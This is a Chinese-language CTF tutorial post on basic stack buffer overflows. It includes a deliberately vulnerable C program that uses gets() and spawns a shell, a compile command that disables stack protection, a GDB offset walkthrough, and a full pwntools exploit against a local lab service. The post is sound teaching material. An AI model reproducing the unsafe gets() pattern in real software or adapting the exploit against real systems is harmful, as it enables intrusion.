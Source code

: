 ```yaml
---
title: "Day6－Basic buffer overflow"
date: 2024-09-20
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經歷了前面的許多基礎知識與工具介紹，終於來到了第一個漏洞與第一個 lab。而這個漏洞可以說是最簡單也最基本的，就是 **Buffer Overflow**。

## 介紹

首先，先來看一個簡單例子。假如一個程式宣告了一些變數及字串，記憶體中的狀態可能會是下圖的樣子：

![image](/images/iron2024/day6_image1.png)

如果對 `buf` 字串輸入正常大小的資料，例如這邊宣告的空間是 0x10（16 bytes），輸入 0x10 個 'A'，記憶體狀態可能會像下圖這樣：

![image](/images/iron2024/day6_image2.png)

然而，當使用一些不安全的函式來輸入數據時，例如 `gets` 函式，可能會產生問題。因為 `gets` 不會檢查輸入的長度，因此可能會覆蓋到 `buf` 後面的變數，甚至是 `rbp` 或 `return address`。以下例子顯示了覆蓋到後面變數 `num3` 和 `num4` 的情況：

![image](/images/iron2024/day6_image3.png)

如果對填入的值進行精確的編排，則可能成為如下所示的情況：

![image](/images/iron2024/day6_image4.png)

這就是最基本的 **Buffer Overflow** 例子。

## Lab

查看以下程式原始碼

```c
#include<stdio.h>
int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    int a = 10;
    printf("Please input your name: ");
    char b[10];
    gets(b);
    if(a == 0xdeadbeef){
        system("/bin/sh");
    }
    printf("Hello, %s\n", b);
    return 0;
}
```

使用以下指令進行編譯

```bash
gcc ./src/bof.c -o ./bof/share/bof -fno-stack-protector
```

大家可以先行使用 GDB 搭配 pwntools 實作題目。如果想提前了解解答，可以繼續閱讀本文中的解說。

## writeup

可以發現程式在第 9 行使用了上面提到的 `gets` 函式來讀取 `b` 字串。接下來，有一個判斷條件是檢查變數 `a` 是否等於 `0xdeadbeef`，如果相等，則會開啟一個 shell。因此，我們的目標有以下兩點：

- 找出需要填充多少字元才能將 `a` 覆蓋為 `0xdeadbeef`。
- 如何將值覆蓋成 `0xdeadbeef`。
為了解決第一個問題，我們可以使用 `objdump` 來 disassemble 程式。會發現在 `gets` 函式之前，程式會為 `buf` 分配空間，對 `lea rax,[rbp-0xe]` 記憶體進行操作。接著，在輸入結束後，程式會使用 `cmp DWORD PTR [rbp-0x4],0xdeadbeef` 進行比較。這告訴我們填充的字元數量是 `0xe - 0x4 = 0xa`，即 10 個字元。

![image](/images/iron2024/day6_image5.png)

當然，除了使用 `objdump` 進行 disassemble 外，也可以使用 GDB 直接觀察程式。首先，使用 GDB 啟動程式（如 `gdb ./bof`），設置斷點在 `main` 函式處（`b main`），並執行程式（`r`）。接著，逐步執行程式（`ni`），直到輸入字串處。這時，我們可以輸入有規律的字元，觀察覆蓋位置，例如輸入 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ。

![image](/images/iron2024/day6_image6.png)

輸入後，我們可以檢查記憶體中的值，會發現覆蓋了兩個 `0x43` 和四個 `0x44`，即 `CCDDDD`。依照剛剛的輸入字串，發現我們需要覆蓋 `AAAABBBBCC`，也就是 `10` 個字元。

![image](/images/iron2024/day6_image7.png)

接下來，我們需要使用 `pwntools` 將 `0xdeadbeef` 覆蓋到適當的位置。使用 `checksec` 可以確認這個檔案是 64 位元，這樣我們就可以使用 `p64()` 來將 `0xdeadbeef` 轉換成 `64` 位格式並覆蓋變數。

![image](/images/iron2024/day6_image8.png)

以下會發現我有留了一行遠端連線的程式碼，這是因為筆者的檔案有附上 docker-compose.yml 跟 DockerFile 跟 xinetd，所以可以讓讀者將題目架起來並實際做練習

完整 exploit：

```python
from pwn import *
# r = process('./bof')
r = remote('127.0.0.1', 10000)
r.sendlineafter(b'Please input your name: ', b'AAAAAAAAAA' + p64(0xdeadbeef))
r.interactive()
```

以下是將題目實際架起來並拿到 flag 的結果

solved！！

![image](/images/iron2024/day6_image9.png)
